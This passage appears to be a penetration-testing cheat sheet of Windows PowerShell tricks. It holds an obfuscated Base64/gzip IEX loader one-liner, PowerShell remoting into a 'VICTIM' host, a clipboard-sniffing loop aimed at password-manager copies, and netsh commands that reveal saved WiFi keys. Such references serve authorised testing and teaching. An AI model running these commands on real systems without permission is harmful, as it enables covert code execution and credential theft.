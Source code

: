 ```

```
cmd.exe /c powershell "'powershell ""$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String(''... Base64 string ...''));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
'""| out-file -filepath %tmp%\tmp9388.bat -encoding ascii; cmd /c '%tmp%\tmp9388.bat'
```

## Enable PowerShell Remoting

Tip Provided By Joshua Wright:

By default, Windows Server 2012R2 and later have PowerShell remote access turned on by default. Windows 10 and Windows 11 systems have this feature turned off by default. To turn on PowerShell remote access, an administrator can run the ```Enable-PSRemoting``` command:

```
PS C:\WINDOWS\system32> Enable-PSRemoting
```

With the appropriate permissions, remote access to PowerShell is straightforward: run Enter-PSSession and specify the target host name or IP address using -ComputerName:

```
PS C:\WINDOWS\system32> Enter-PSSession -ComputerName VICTIM
[VICTIM]: PS C:\Users\Victim\Documents>
```

When you are done with your PowerShell remote session, run ```Exit-PSSession``` to return to your host system.

## PowerShell Password Manager and Clipboard Access

Password managers offer many benefits for selection and storage of passwords.

```
PS C:\> $x=""; while($true) { $y=get-clipboard -raw; if ($x -ne $y) { Write-Host $y; $x=$y} }
```

## PowerShell List Named Pipes

```
ls \\.\pipe\
```

To run using ```cmd.exe```:

```
dir \\.\pipe\\
```

## Python LM Hash Generation

```
python -c 'from passlib.hash import lmhash;print lmhash.hash("password")'
```

## Discovering WiFi Passwords

```
netsh wlan show profiles
```

```
netsh wlan show profile name="SSID" key=clear
```
```